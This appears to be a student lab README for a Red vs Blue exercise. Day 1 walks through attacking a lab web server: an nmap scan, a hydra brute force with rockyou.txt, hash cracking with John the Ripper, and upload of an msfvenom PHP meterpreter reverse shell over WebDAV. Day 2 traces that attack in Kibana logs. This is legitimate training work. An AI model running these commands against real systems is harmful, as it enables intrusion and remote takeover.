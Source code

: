 ### Presentation

PLACEHOLDER LINK

### Day 1 Deliverables

Complete the following to find the flag:

- Discover the IP address of the Linux web server.
> Run ```nmap 192.168.1.0/24```

![1-network-discovery](screenshots/1-network_discovery.png)

- Locate the hidden directory on the web server.
> Navigate to http://192.168.1.105:80, explored the server contents with a browser.

![2-website](screenshots/2-website.png)
![3-secret-folder](screenshots/3-secret-folder.png)

- Brute force the password for the hidden directory using the hydra command:
> Find the wordlist and unzip the package.

![4-rockyou-find](screenshots/4-rockyou-find.png)
![5-unzip-rockyou](screenshots/5-unzip-rockyou.png)

> Ran Hydra with the following command ```hydra -l ashton -P rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder```, logged into the website.

![6-hydra-bruteforce](screenshots/6-hydra-bruteforce.png)
![7-secret-folder-contents](screenshots/7-secret-folder-contents.png)

- Break the hashed password with the Crack Station website or John the Ripper.
> Read the contents of the secret folder and cracked the HASH password with John the Ripper. The cracked password is ```linux4u```.

![8-webdav-contents](screenshots/8-webdav-contents.png)
![9-john-the-ripper](screenshots/9-john-ripper.png)

- Connect to the server via WebDav.
> Connected to the WebDav service at ```192.168.1.105/webdav```.

![10-webdav_passwd](screenshots/10-webdav_passwd.png)

- Upload a PHP reverse shell payload.
> Created the payload with ```msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > meterpreter.php``` followed by uploading it with ```cadaver http://192.168.1.105/webdav``` and ```put meterpreter.php```.

![11-msfvenom](screenshots/11-msfvenom.png)
![12-cadaver](screenshots/12-cadaver.png)
![13-metasploit](screenshots/13-metasploit.png)

- Execute payload that you uploaded to the site to open up a meterpreter session.
> Payload executed by going to http://192.168.1.105/webdav/meterpreter.php.

![14-payload](screenshots/14-payload.png)

- Find and capture the flag.
> Ran ```locate flag```, followed by ```head /flag.txt```

![15-locate_flag](screenshots/15-locate_flag.png)
![16-flag](screenshots/16-flag.png)

### Day 2 Deliverables

#### Identify the offensive traffic.

* What time did the port scan occur?

> Port scan from 192.168.1.90 started around 14:42 on May 9th, 2022.

* How many packets were sent, and from which IP?

> 166,131 packets were sent from 192.168.1.90

* What indicates that this was a port scan?

> SYN scans from 192.168.1.90 to multiple ports on 192.168.1.105 through ICMP Echo for host detection.

![port-scan](/Project_2-Red-vs-Blue/screenshots/kibana-portscan.png)
#### Find the request for the hidden directory.

* What time did the request occur? How many requests were made?

> The request occurred at 15:07 on May 9th, 2022. There were 16,297 requests were made.

![kibana-secretfolder](/Project_2-Red-vs-Blue/screenshots/kibana-secretfolder.png)

* Which files were requested? What did they contain?

> The file ```/connect_to_corp_server``` was accessed. It contains instructions how to access web dav server, including MD5 Hashed password.

![kibana-filelook](/Project_2-Red-vs-Blue/screenshots/kibana-filelook.png)
#### Identify the brute force attack.

* How many requests were made in the attack?

> There were 16,297 requests made during the attack.

![kibana-hydra](/Project_2-Red-vs-Blue/screenshots/kibana-hydra.png)

* How many requests had been made before the attacker discovered the password?

> 16,296 attempts were made, resulting in HTTP Response code 401. The 16,297th attempt, was successful with HTTP Response code 301.

![kibana-301](/Project_2-Red-vs-Blue/screenshots/kibana-hydra301.png)
#### Find the WebDav connection.

* How many requests were made to this directory?

> There were 18 requests made to ```/webdav``` directory.

![kibana-webdav](/Project_2-Red-vs-Blue/screenshots/kibana-webdav.png)

* Which files were requested?

> The file requested was called ```meterpreter.php```.

![kibana-file](/Project_2-Red-vs-Blue/screenshots/kibana-accessedfiles.png)


